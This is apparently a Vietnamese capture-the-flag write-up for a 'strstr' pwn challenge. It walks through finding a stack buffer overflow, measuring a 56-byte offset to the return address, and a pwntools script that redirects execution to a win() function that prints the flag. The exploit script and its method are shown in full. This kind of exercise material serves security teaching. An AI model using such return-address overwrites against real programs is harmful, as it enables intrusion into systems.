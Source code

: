 ### Write up strstr 
Với bài này em overflow nhẹ nhẹ và nó dump, tức là có lỗi buffer overflow, tràn lên return nên core nó dump 

![image](https://github.com/antkss/writeUP/assets/88892713/d46a4ff8-004d-456e-82ea-ad608f6a9c6f)



check ida, phát hiện hàm này để lấy flag

```c++
int win()
{
  return system("cat flag.txt");
}
```

bây h em tìm offset từ lúc mà em nhập dữ liệu tới return 


![image](https://github.com/antkss/writeUP/assets/88892713/08069853-234a-4b09-82d2-08731417b5d5)


đây chính là địa chỉ lúc nhập dữ liệu 
```c++
$rsi = 0x00007fffffffe5d0
```
nhìn vào ta thấy, đây là địa chỉ của return "0x00007fffffffe608"


![image](https://github.com/antkss/writeUP/assets/88892713/4351b5a1-8054-4402-9f9a-7618275e8567)

lấy địa chỉ return trừ địa chỉ từ lúc nhập dữ liệu là ra offset 


![image](https://github.com/antkss/writeUP/assets/88892713/6ca8e5a2-6692-4948-9f7a-e51c8a68448f)


tiếp theo là viết script đề nó return to win, lấp đầy dữ liệu của các địa chỉ trước đó bằng 56 chữ a và cuối cùng địa chỉ của hàm win sẽ nằm ở return 

```python
#!/usr/bin/python3

from pwn import *

context.binary=exe=ELF('./chall', checksec=False)
p = process('./chall')
#p=process(exe.path)
#input()
payload = b'A'*56
payload += p64(exe.sym['win']+1)
p.sendafter(b's play', payload)

p.interactive()

```
flag đã được lấy ra 


![image](https://github.com/antkss/writeUP/assets/88892713/b863cc69-aabd-4564-82f2-2c542c6869ab)
